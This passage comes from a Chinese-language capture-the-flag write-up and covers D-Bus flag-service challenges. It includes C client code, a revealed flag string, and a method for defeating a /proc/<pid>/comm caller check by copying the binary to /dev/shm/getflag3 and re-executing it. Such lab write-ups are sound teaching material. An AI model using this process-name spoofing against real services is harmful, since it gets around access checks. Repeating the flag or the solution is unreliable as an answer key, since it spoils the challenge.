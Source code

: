 ```c
        OBJECT_PATH, // object path
        INTERFACE,   // interface name
        METHOD,      // method
        g_variant_new("(h)", g_fd),
        NULL,        // expected return type
        G_DBUS_CALL_FLAGS_NONE,
        -1,
        fdlist,
        NULL,
        NULL,
        &error
    );
    if (!result) {
        g_printerr("Remote call failed: %s\n", error->message);
        return EXIT_FAILURE;
    }
    gchar *response;
    g_variant_get(result, "(s)", &response);
    g_print("Calling remote method success: %s\n", response);
    return EXIT_SUCCESS;
}
```

Makefile:
```makefile
flag2: flag2.c
	gcc -fdiagnostics-color=always -g flag2.c `pkg-config --cflags --libs gio-2.0` -o flag2
```

编译后上传执行即可获取第二个 Flag。

Flag 为 `flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_277ff65d23}`。

### Comm Say Maybe
查看 `flagserver.c` 中的 `handle_method_call()` 函数，发现：
- 和 `What DBus Gonna Do?` 一样，不过这次不需要你发送任何数据与
- 但是 `flagserver` 会获取调用者的 pid，然后检查 `/proc/<pid>/comm`，也就是调用者进程被执行时的指令（不包括参数）
- 可执行程序的名字是应该是 `getflag3`

查看附件中的 `server.py` 可以看到，我们的可执行程序会被写入到 `/dev/shm/executable` 中执行。那么我们直接复制自己到 `/dev/shm/getflag3`，然后执行 `/dev/shm/getflag3` 即可。

出人意料的是，这确实可以做到。`/dev/shm` 确实是可以被读写的！这比我一开始解出来时的想法要简单太多了，因为我一开始认为无法在 `/dev/shm` 中创建文件。既然这样，那就只需要简单修改一下 `getflag.c` 就可以做到让指令为 `getflag3` 的进程进行调用了：
```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main(int argc, char **argv)
{
    // Copy and execute
    if (argc == 1)
    {
        system("cp /dev/shm/executable /dev/shm/getflag3");
        system("/dev/shm/getflag3 placeholder_to_alter_argc");
        return 0;
```